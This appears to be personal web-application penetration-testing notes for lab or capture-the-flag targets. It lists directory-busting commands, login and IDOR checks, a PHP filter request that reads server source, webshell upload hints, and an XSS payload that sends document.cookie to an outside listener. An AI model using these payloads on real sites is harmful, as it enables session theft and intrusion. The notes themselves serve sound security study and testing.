 Quick check:
	is there a login?
		try admin, administrator..
		try sqli

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -t 30 -e`

`gobuster dir -r -u http://server.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -e` 

`gobuster dir -k -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 20 -u http://10.10.10.95`

`gobuster vhost -r -u http://10.10.10.10 --domain server.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 30`




What's running:
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	parameters
	mail addresses of users and admins/support/privileged users

go to the url for folders used on the site to check for file listings and other files
	especially if they are called files

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[Fuzzing/feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try making parameters arrays by adding `[]` before = like `username[]=whatever`
		also try adding more than one value, for example for e-mail addresses
			`'user[email][]': [self.target, self.evil]`
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`

iis? way to put a aspx shell?
	google it or msfvenom can generate


webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work

Run scanners:
	`nikto -h http://whatever.thm`
	`whatweb -a 4 http://dailybugle.thm`

scan with zap

https://owasp.org/www-project-web-security-testing-guide/latest/


